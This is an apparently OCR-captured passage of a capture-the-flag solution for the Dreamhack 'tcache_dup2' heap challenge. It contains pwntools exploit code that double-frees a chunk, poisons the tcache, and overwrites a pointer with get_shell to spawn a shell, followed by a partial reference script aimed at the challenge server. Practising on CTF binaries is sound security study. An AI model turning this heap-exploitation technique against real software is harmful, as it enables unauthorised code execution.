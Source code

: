     p.sendlineafter(b'Size: ',str(size))
    p.sendafter(b'Data: ',data)
input()
create_heap(50,b'aaaa')
delete_heap(0)

modify_heap(0,9,b'a'*9)
delete_heap(0)

#modify_heap(0,9,b'a'*9)
#delete_heap(0)


create_heap(50,p64(0x404058))
create_heap(50,b'a')
create_heap(50,p64(exe.sym.get_shell))

p.interactive()
```
tham khảo :
```
from pwn import *

p = remote("host3.dreamhack.games", 21320)
#p = process("./tcache_dup2")
e = ELF("./tcache_dup2")

def create(size, data):
    p.recvuntil(b"> ")
    p.sendline(b"1")
    p.recvuntil(b"Size: ")
    p.sendline(str(size))
    p.recvuntil(b"Data: ")
    p.send(data)

def mod(idx, size, data):
    p.recvuntil(b"> ")
    p.sendline(b"2")
    p.recvuntil(b"idx: ")
    p.sendline(str(idx))
    p.recvuntil(b"Size: ")
    p.sendline(str(size))
    p.recvuntil(b"Data: ")
    p.send(data)

def delete(idx):
    p.recvuntil(b"> ")
    p.sendline(b"3")
    p.recvuntil(b"idx: ")
    p.sendline(str(idx))

create(0x30, b"A")
create(0x30, b"A")
delete(0)
delete(1)
